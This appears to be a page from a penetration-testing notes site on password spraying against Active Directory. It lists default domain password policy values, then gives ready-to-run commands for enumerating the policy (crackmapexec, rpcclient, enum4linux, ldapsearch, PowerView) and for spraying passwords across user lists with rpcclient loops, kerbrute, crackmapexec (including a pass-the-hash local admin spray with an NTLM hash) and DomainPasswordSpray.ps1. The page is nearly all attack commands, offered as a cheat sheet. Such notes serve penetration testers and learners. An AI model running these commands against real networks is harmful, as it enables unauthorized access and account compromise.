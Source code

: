 ```yaml
---
title: "Password Spraying"
Description: 
draft: false
images: []
menu:
  docs:
    parent: "Active Directory"
weight: 3
toc: true
---
```

## <span style="color:#b31d36"> Password Policy

The default password policy when a new domain is created is as follows, and there have been plenty of organizations that never changed this policy:

|     Policy     |      Default Value         |
|:----------|:-------------|
|Enforce password history| 	24 days|
|Maximum password age|	42 days|
|Minimum password age|	1 day|
|Minimum password length|	7|
|Password must meet complexity requirements|	Enabled|
|Store passwords using reversible encryption|	Disabled|
|Account lockout duration|	Not set|
|Account lockout threshold|	0|
|Reset account lockout counter after|	Not set|

### <span style="color:#b31d36"> Enumerating the Password Policy - from Linux

```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
```python
rpcclient -U "" -N 172.16.5.5

rpcclient $> querydominfo
rpcclient $> getdompwinfo
```
```
enum4linux -P 172.16.5.5
```
```
enum4linux-ng -P 172.16.5.5 -oA enum4linuxOutput
```
```python
ldapsearch -h 172.16.5.5 -x -b "DC=EXAMPLE,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
### <span style="color:#b31d36"> Enumerating the Password Policy - from Windows
```
C:\kryot> net accounts
```
```python
PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```
## <span style="color:#b31d36"> Password Spraying

### <span style="color:#b31d36"> Internal Password Spraying - from Linux

Bash oneliner
```powershell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
Kerbrute
```
kerbrute passwordspray -d example.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
Crackmapexec
```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
Local Admin Spraying with CrackMapExec

```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

### <span style="color:#b31d36"> Internal Password Spraying - from Windows
<span style="color:#b31d36"><a href="https://github.com/dafthack/DomainPasswordSpray" target="_blank">DomainPasswordSpray.ps1</a></span>

```
PS C:\kryot> Import-Module .\DomainPasswordSpray.ps1
PS C:\kryot> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

Kerbrute.exe
```
kerbrute.exe passwordspray -d example.local --dc 172.16.5.5 valid_users.txt  Welcome1
```